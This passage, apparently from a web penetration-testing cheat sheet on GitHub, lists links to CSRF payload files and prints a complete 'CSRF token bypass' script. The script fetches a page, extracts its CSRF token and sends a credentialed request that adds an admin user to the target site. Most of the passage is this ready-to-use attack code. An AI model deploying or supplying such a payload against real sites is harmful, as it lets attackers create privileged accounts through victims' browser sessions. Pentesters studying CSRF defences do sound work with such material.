 ```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf.html
  
-> csrf_json.html  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_json.html
  
-> csrf_json_xhr.html  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_json_xhr.html

### Bypass Token CSRF - Example
-> csrf_token_bypass.html  
```<script type="text/javascript">

function addUser(token)
{

	var url="https://site.com/add_user.php";
	var params="name=Admin&surname=ok&email=ok@gmail.com&role=admin&submit=CSRFToken=" + token;

	var CSRF = new XMLHttpRequest();
	CSRF.open("POST", url, true);
	CSRF.withCredentials = 'true';
	CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

	CSRF.send(params);

}

//Token Extraction
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function(){

	if(XHR.readyState == 4){
		var htmlSource = XHR.responseText;
		
		//Extract the token
		var parser = new DOMParser().parseFromString(htmlSource, "text/html");
		var token = parser.getElementById('CSRFToken').value;

		addUser(token);
	}
}

XHR.open('GET', 'http://site.com/add_user.php', true);
XHR.send();
	
</script>
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_token_bypass.html
